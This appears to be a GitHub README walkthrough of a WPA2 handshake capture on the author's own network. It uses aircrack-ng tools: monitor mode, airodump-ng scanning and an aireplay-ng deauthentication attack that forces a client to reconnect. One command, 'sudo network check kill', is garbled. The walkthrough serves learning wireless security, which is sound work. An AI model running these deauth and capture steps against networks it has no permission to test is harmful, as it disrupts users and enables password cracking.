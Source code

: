 # Run "ifconfig" to check if wireless adapter is properly connected to machine & to check adapter name. 
In my case it's (wlan0).
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-12-38.png">

# Followed by "iwconfig" to check what mode your wireless adapeter is in
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-16-01.png">

# "ifconfig wlan0 down", "sudo network check kill" - to drop wlan0 conection and kill all network process connected to machine respectively.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-17-23.png">

# "iwconfig wlan0 mode monitor", "ifconfig wlan0 up" - turn on monitor mode on wireless adapter and bring up wlan0 connection.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-09.png">

# Check wlan0 status, should be in monitor mode now.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-20.png">

# "airodump-ng wlan0" - to monitor packets and wireless services around you.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-59.png">

# Displays both network and connected devices(STATION section), quit the process by hitting the "CTRL + C" on your keyboard.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-19-17.png ">

# "airodump-ng --bssid (enter bssid) --channel (enter CH) wlan0" - to monitor packets on a specific network.
chose the network with the name H4CKER which is my personal network.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2012-19-13.png">

# "airodump-ng --bssid (enter bssid) --channel(enter CH) --write (name file) wlan0" - capture packets in a file 
[+] Run a deauthentication attack with"aireplay-ng --deauth 10 -a (target BSSID) -c (target MAC) wlan0 " on another pane to capture network handshake.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-18.png">

# Waiting to capture handshake while device conects back to WPA2 network.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-31.png ">

# Handshake should be captured once deauth attack is complete.

